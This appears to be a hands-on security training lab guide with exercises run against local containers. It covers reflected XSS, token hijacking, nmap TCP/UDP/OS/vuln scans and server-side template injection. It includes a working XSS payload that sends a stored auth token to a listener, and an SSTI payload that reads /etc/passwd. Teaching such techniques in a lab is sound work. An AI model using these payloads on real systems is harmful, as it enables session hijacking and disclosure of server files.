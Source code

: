 Now open Firefox (Web Browser) from the Main Menu. Goto: `http://localhost:5000`

Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`

In the top bar, you should find "Manage Expenses". Click on that. Once you do, shortly, you should see that a JavaScript alert is fired at you with the Authorization Token of Maya's. This indicates that the attack has worked and the application is vulnerable to Cross Site Scripting

### Token Hijacking with Cross-Site Scripting
Let's repeat Steps 1 - 4 from the previous exercise. 

However, for Step 5 the XSS Payload will change to this: 

`<svg onload=\"var xhr = new XMLHttpRequest();xhr.open('GET', 'http://127.0.0.1:8000?token='+localStorage.getItem('token'), true);xhr.send();\"/>`

Before you open Firefox and repeat the steps from the previous exercise. Open up another terminal window and type the following command into it.

`python -m SimpleHTTPServer`

Leave this terminal open

Now repeat the steps from the Firefox Browser and observe the results. Once the page loads, go back to the terminal window to see if the token has been captured

## Nmap Basic Commands
- Open the **Terminal** on your Desktop
- Run the command `stop_all_containers.sh`
- Now run the command `start_node.sh`, which will start a new container
- Type the following command in the terminal and press ENTER to perform a default TCP scan on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default UDP scan on the localhost IP with 127.0.0.1 `nmap -sU 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP scan on a specific set of TCP Ports (1 - 65535)  on the localhost with IP 127.0.0.1 `nmap -sT -p1-65535 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform OS fingerprinting to identify the OS of the localhost with IP 127.0.0.1 `nmap -O 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP SYN scan on the localhost with IP 127.0.0.1 `nmap -sS 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default TCP scan with No Ping on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn`
- Type the following command in the terminal and press ENTER to perform a slow TCP scan, with traceroute on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn -T0 --traceroute`

## Nmap NSE Script - Scans
* Type the following command in the terminal and press ENTER to perform a discovery scan on the localhost with IP 127.0.0.1 `nmap -sC -p1-65535 127.0.0.1`
* Type the following command in the terminal and press ENTER to perform a vulnerability scan on the localhost with IP 127.0.0.1 `nmap --script vuln 127.0.0.1 -Pn`

## Server-Side Template Injection
* Open the **Terminal** on your Desktop
* Run the command `stop_all_containers.sh`
* Now run the command `start_flask.sh`, which will start a new container
* Open the Chrome Browser and navigate to a non-existent path: 
	* `http://localhost:5050/non_existent_path`
* Substitute the `non_existent_path` with one of the payloads below.
* Payloads: 
	* `{{ config.items() }}`
	* `{{''.__class__.mro()[2].__subclasses__()[40]('/etc/passwd').read()}}`
